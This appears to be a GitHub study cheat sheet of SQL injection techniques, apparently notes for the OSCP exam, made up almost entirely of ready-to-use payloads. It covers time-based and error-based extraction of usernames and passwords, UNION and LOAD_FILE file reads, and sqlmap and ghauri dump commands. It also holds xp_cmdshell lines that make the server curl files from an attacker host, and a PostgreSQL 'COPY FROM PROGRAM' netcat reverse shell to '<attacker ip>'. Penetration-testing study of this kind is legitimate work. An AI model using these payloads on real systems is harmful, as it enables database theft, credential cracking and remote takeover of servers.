 ### :open_file_folder: References

- https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/
- https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
- https://medium.com/@notsoshant/a-not-so-blind-rce-with-sql-injection-13838026331e
- https://notchxor.github.io/oscp-notes/2-web/sqli/
- https://www.asciitable.com/
- https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/
- https://www.securityidiots.com/Web-Pentest/SQL-Injection/Union-based-Oracle-Injection.html
- https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

### :open_file_folder: Blind SQL Injections

Find columns names

```SQL
' HAVING 1=1 --
' GROUP BY table.column1 HAVING 1=1 --
' GROUP BY table.column1, column2 HAVING 1=1 --
' GROUP BY table.column1, column2, column3(n) HAVING 1=1 -- and so on
```

Time-Based 

Use the waiting time to determine whether the conditional equation is valid

```SQL
-- e.g. guess username (ASCII)
'; IF (ASCII(lower(substring((select TOP 1 username from users), 1, 1))) > 97) WAITFOR DELAY '00:00:05' --
'; IF (ASCII(lower(substring((select TOP 1 username from users), 1, 1))) > 98) WAITFOR DELAY '00:00:05' -- and so on

-- e.g. confirm that the username is correct
'; IF (substring((select TOP 1 username from users), 1, 5) = 'admin') WAITFOR DELAY '00:00:05'--
```

```SQL
-- check column length
'; IF (select LEN(password) from users) = 64 WAITFOR DELAY '00:00:05' --
```

single column condition test

```SQL
/* 
    Check if there are uncommon [mysql] db names
    if found, wait N seconds
    ='1'...= '2'... and so on
*/
SELECT 'y' 
WHERE 1=0 or 
SLEEP(IF((SELECT COUNT(*) FROM information_schema.schemata 
WHERE schema_name NOT IN ('information_schema', 'mysql', 'performance_schema'))='1', 5, 0)); 
```

[MS SQL xp_cmdshell command testing](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16)

```SQL
'; EXEC xp_cmdshell 'curl http://<attacker ip>'; --
'; EXEC xp_cmdshell 'curl http://<attacker ip>/<file> -o C:\\Users\\Public\\Documents\\<file>'; --
```

### :open_file_folder: Error-Based

SQL Server 

- https://infosecwriteups.com/exploiting-error-based-sql-injections-bypassing-restrictions-ed099623cd94
- https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/

```SQL
/* Adding additional strings ensures that error messages are prompted. */

/* database */
(CASE WHEN 1=CONVERT(INT, (CHAR(58) + CHAR(58) + (SELECT TOP 1 CAST(([name]) AS NVARCHAR(4000)) FROM [master]..[sysdatabases] WHERE name NOT IN ('master','model','msdb','tempdb')) + CHAR(58) + CHAR(58))) THEN 1 ELSE 2 END)

/* table */
(CASE WHEN 1=CONVERT(INT, (SELECT TOP 1 table_name FROM information_schema.tables)) THEN 1 ELSE 2 END)
(CASE WHEN 1=CONVERT(INT, (SELECT TOP 1 table_name FROM information_schema.tables WHERE table_name NOT IN ('test'))) THEN 1 ELSE 2 END)

/* column */
(CASE WHEN 1=CONVERT(INT, (SELECT TOP 1 column_name FROM information_schema.columns where table_name = 'test')) THEN 1 ELSE 2 END)
(CASE WHEN 1=CONVERT(INT, (SELECT TOP 1 column_name FROM information_schema.columns where table_name = 'test' AND column_name NOT IN ('id'))) THEN 1 ELSE 2 END)

/* data */
(CASE WHEN 1=CONVERT(INT, (SELECT TOP 1 column1+';'+column2 FROM [database].dbo.test where id = '1')) THEN 1 ELSE 2 END)
```

### :open_file_folder: MySQL

Get DBs

```MySQL
SELECT group_concat(schema_name) FROM information_schema.schemata;
# For example, assuming that only one column is searched
# ' UNION SELECT group_concat(schema_name) FROM information_schema.schemata #
```

Get tables in DB

```MySQL
SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema = '<DB>';
```

Get columns in table

```MySQL
SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name = '<table>';
```

Find all ```user``` tables in DBs

```MySQL
SELECT group_concat(column_name) FROM information_schema.columns where table_name = 'user';
# SELECT password FROM user
# MD5 password, hashcat -a 0 -m 0 hash.txt rockyou.txt
```

[Load file](https://dev.mysql.com/doc/refman/8.0/en/string-functions.html#function_load-file): we need FILE privilege

```MySQL
SELECT * LOAD_FILE('C:\Windows\System32\drivers\etc\hosts')
/* table contains columns */
x' UNION SELECT 1, LOAD_FILE('C:\Windows\System32\drivers\etc\hosts'),3-- -
```

Combining website LFI

```shell
wfuzz -z file,/tmp/file_inclusion_linux.txt -d "username=' UNION SELECT 1, LOAD_FILE('FUZZ'), 3, 4, 5, 6; -- -" --hw 89 <url>
# -d postdata
# -z file,wordlist
# hw:hide responses words
```

### :no_entry: sqlmap (:radioactive::radioactive::radioactive: cannot be used in the exam)

```shell
# GET
sqlmap -u "<target url>" --dump -C "columns" -T "tables" -D "database" --random-agent 
# GET, POST
sqlmap -r "<request.txt>" -p "<parameter1>,<parameter2>" --dump -C "columns" -T "tables" -D "database" --random-agent
sqlmap -u "<target url>" -p "<parameter1>,<parameter2>" --dump -C "columns" -T "tables" -D "database" --random-agent --data "<data body>"
```

post.txt = request contents

![SQLi_2022 02 28_19h37m55s_001](https://user-images.githubusercontent.com/8998412/155977929-7e38d3bb-8d61-4afa-af6b-90ae1e13ec73.png)


### :no_entry: ghauri (:radioactive::radioactive::radioactive: cannot be used in the exam)

You can always give it a try.

```shell
# GET
ghauri -u "<target url>" --confirm --level 3 --flush-session -p '<parameter1>,<parameter2>'
# GET, POST
ghauri -r "<request.txt>" --confirm --level 3 --flush-session -p '<parameter1>,<parameter2>' 
ghauri -u "<target url>" --confirm --level 3 --flush-session -p '<parameter1>,<parameter2>' --data "<data body>"
```

### :no_entry: MS SQL

```sql
SELECT name, database_id, create_date FROM sys.databases;
SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE';
SELECT TABLE_NAME FROM <databasename>.INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE';
```

### :open_file_folder: PostgreSQL

connect to the database

```sql
psql -U postgres -h localhost
```

show databases and tables

```shell
# show databases
postgres=# \l
postgres=# SELECT datname FROM pg_database;
# use database
postgres=# \c testDB
# show tables
postgres=# \dt
postgres=# SELECT * FROM pg_catalog.pg_tables WHERE schemaname != 'pg_catalog' AND schemaname != 'information_schema';
# exit command line
postgres=# \q
# check version
postgres=# SELECT version();
```

Reverse shell with PostgreSQL user privilege.

```shell
postgres=# DROP TABLE IF EXISTS RevCmd;
postgres=# CREATE TABLE RevCmd(rev_cmd text);
postgres=# COPY RevCmd FROM PROGRAM '/tmp/nc -e /bin/sh <attacker ip> <attacker port>';
# try different commands, e.g., id
# postgres=# SELECT * FROM RevCmd;
# one liner
$ psql -U postgres -h localhost -c "DROP TABLE IF EXISTS RevCmd;CREATE TABLE RevCmd(rev_cmd text);COPY RevCmd FROM PROGRAM '/tmp/nc -e /bin/sh <attacker ip> <attacker port>';"
```